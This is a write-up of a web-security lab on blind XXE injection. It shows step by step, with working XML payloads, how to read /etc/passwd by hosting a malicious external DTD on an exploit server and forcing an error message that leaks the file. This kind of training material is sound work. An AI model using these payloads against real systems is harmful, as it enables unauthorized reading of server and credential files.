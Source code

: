 
### Exploiting blind XXE to retrieve data via error messages : PRACTITIONER

---


> Viewing any item and then pressing on `check stock` while having BURPSUITE PROXY HTTP history on.

![](check-stock.png)

> Viewing the `POST` request sent via HTTP history.

![](lab6-1.png)

> We see there is XML being used.
> Trying to view the `/etc/passwd` using this payload.
```XML
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>
```
> And then calling it.
```XML
&ext;
```

![](lab6-2.png)

> Tying to use parameter entities instead.
``` XMl
<!DOCTYPE foo [ <!ENTITY % ext SYSTEM "file:///etc/passwd" > ]>
```
> And calling it.
``` XML
%ext;
```

![](lab6-3.png)

> We see that we don't see anything, hence, this might be a blind xxe injection.
> Trying to display an error message that contains the contents of the file.
``` XML
<!DOCTYPE foo [
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>" >
%eval;
%error;
]>
```

1.  Create an XML parameter entity called `file` that contains the contents of the file `/etc/passwd`.
2.  Create an XML parameter entity called `eval`. In is another parameter entity called `error`.
3. `error` intentionally loads a false file name, and passes the entity `file` as the file name using `%file;`.
4. `file` contains the contents of the `/etc/passwd` file, so the name of the file will be the contents of the file.
5. Finally, use the `eval` entity which declares the `error` entity and runs it. We then use the `error` entity to view its response.

![](lab6-4.png)

> We see that we can't put it inside this document.
> This is something we know since having a parameter entity declared in the definition of another parameter entity is only parsed through external DTD.
> We can try to call this payload from an external document, or DTD.
> We can do that using the exploit server given by the lab, and then reference this external XML entity using the lab url.

> Head to the exploit server, and paste the payload above.
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>" >
%eval;
%error;
```

![](lab6-5.png)

> Saving the URL of the exploit server, and then storing the exploit using the button `store` at the bottom.

```
https://exploit-0a4e005804d421bf82c1691e013400a4.exploit-server.net/exploit
```

> Modifying the `POST` request to include this payload from the exploit server.
```
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "https://exploit-0a4e005804d421bf82c1691e013400a4.exploit-server.net/exploit" > &ext;]>
```

![](lab6-6.png)

> We expect this response as we saw it above, and removed it by using parameter entities instead.
> Modifying the external reference XML entity to be a parameter entity.

```
<!DOCTYPE foo [ <!ENTITY % ext SYSTEM "https://exploit-0a4e005804d421bf82c1691e013400a4.exploit-server.net/exploit" > %ext;]>
```

![](lab6-7.png)

> We see that it tried to read the file `/nonexistent/<file contents>`, which casues an error and then prints out the error.

#### Summary

> Tried to add an XML entity, but it didnt work. So we tried using parameter entities and we saw that it passes the XML injection check.
> So we tried using the error messages, but we see that the entities are still recognized, so we add the error message payload somewhere else and reference it using an external entity.
> We then call this external entity as a parameter entity and display the results.

---
